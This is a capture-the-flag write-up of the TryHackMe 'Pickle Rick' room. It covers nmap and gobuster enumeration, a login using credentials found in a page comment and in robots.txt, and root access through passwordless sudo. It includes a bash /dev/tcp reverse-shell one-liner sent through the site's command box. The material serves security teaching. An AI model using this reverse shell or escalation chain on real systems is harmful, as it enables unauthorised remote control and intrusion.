 ```yaml
---
layout: single
title: TryHackMe - Pickle Rick Writeup
permalink: /thm-pickle-rick-writeup/
excerpt: "TryHackMe Machine"
classes: wide
header:
  teaser: "/assets/images/thm/pickle_rick/1.png"
  teaser_home_page: true  
categories:
  - tryhackme
  - linux
  - infosec
  - writeup
tags:
  - gobuster
---
```


![1](/assets/images/thm/pickle_rick/1.png)

[Link : https://tryhackme.com/room/picklerick](https://tryhackme.com/room/picklerick)

# 1:Enumeration

First, let’s do an enumeration with the IP address of this machine. I’m gonna run Nmap [Netwok Mapper] to scan any open ports. I’m gonna run this command

```
nmap -sC -sV -oN nmap/initial <machine ip>
```

### Explaining the nmap scan:
* -sC	:= scan using nmap default script
* -sV	:= scan for version
* -oN := output in normal format

![2](/assets/images/thm/pickle_rick/2.png)

Nmap scan shows us. There are 2 ports open ssh and HTTP. First, I’m gonna check port 80 because not common for ssh to log in as anonymous. Let’s check it out.

Cool! we got this web page

![3](/assets/images/thm/pickle_rick/3.png)

This is the very first thing I’m gonna do. You always need to check the page source code maybe we can find something interesting. Well, yes we did.

![4](/assets/images/thm/pickle_rick/4.png)

In this page source. We can see the comment says `Note to self, remember username!`. We have a username. Unfortunately, we don’t know where to log in as this username.

Well, I’m gonna run gobuster. Gobuster is a tool to find the hidden directory on this website

```
gobuster dir -u http://<machine ip> -w /path/to/wordlist.txt -x php,.txt,.html
```

![5](/assets/images/thm/pickle_rick/5.png)

The scan result shows us the hidden directory called `login.php` with status code 200 and we also found `robots.txt`

Let’s take a look at the login.php and robots.txt

![6](/assets/images/thm/pickle_rick/6.png)

If you remember. In the beginning, we found the username. If you look closely at the robots.txt it looks like something, maybe it is the password. Let’s try it.

![7](/assets/images/thm/pickle_rick/7.png)

wow! it’s working. We can see on this page, we can run the command in that box. So, I’m gonna execute reverse shell on that to make an easy foothold.

![8](/assets/images/thm/pickle_rick/8.png)

# 2:Foothold/Gaining Access

![9](/assets/images/thm/pickle_rick/9.png)

```bash
bash -c ‘bash -i >& /dev/tcp/<your ip>/<listening port> 0>&1’
```

![10](/assets/images/thm/pickle_rick/10.png)

First, what I like to do is run the `sudo -l` command to check sudo permission/capability.

![11](/assets/images/thm/pickle_rick/11.png)

After, we ran that command. It says “(ALL) NOPASSWD: ALL”. This says 
> ‘Hey dude! you can run sudo without a password at all and be free to use it’.

This happens because of not properly configure the user and root.

Now, Let’s try find the first ingredient Rick needs.

![12](/assets/images/thm/pickle_rick/12.png)

Ok. We just have the first ingredient. However, We need two more the ingredient. So, let’s try to see any user home directory exists. Look like the user `rick` exists. Let’s try to check it out.

![13](/assets/images/thm/pickle_rick/13.png)

# 3:Privilege Escalation

As we know, This user `www-data` can run sudo without a password at all. This means we can be root by running the command sudo su.

![14](/assets/images/thm/pickle_rick/14.png)

WoW! We just solve this box with ease and gain a lot of knowledge.

# 4:Conclusion

I’ve learned a lot today. This shows us how dangerous it is if you don’t configure something properly. In this case, the sudo command. However, An attacker can be root in your machine if they have a good and strong foothold. Well, before an attacker can access make sure you have to patch all of your weak systems. In this machine, the website can execute bash. This is bad and an attacker easily got the reverse shell.

This room so much fun and I hope you guys have fun and learn something new today.